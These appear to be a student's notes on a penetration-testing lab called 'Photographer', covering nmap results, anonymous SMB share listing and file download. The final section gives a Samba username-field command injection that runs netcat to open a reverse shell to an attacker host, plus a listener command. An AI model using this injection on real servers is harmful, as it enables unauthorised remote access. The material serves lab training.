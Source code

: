 # Photographer lab - Notes

## Target Details
```
http://192.168.119.76/
```

## Nmap Scanning 
```
Host is up (0.22s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8000/tcp open  http-alt
```

## Attacking smb client
```
https://docs.centrify.com/Content/zint-samba/ConfigurationUNIXAccess.htm


Connecting to the SMB ip address

smbclient -N -L //192.168.119.76
-L  listing the shares present
-N  accessing without password


Using smb map
smbmap -H "ipaddrr"
```

Samba shares present
```

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Samba on Ubuntu
	IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            PHOTOGRAPHER

```

Accessing a particular samba share
```
smbclient -N //ip/sharename
```

Downloading files from smb
```
get filename.txt
```


smb reverseshell
```
logon “/=`nc 192.168.49.119 4444 -e /bin/bash`"
nc -vvlp 4444
```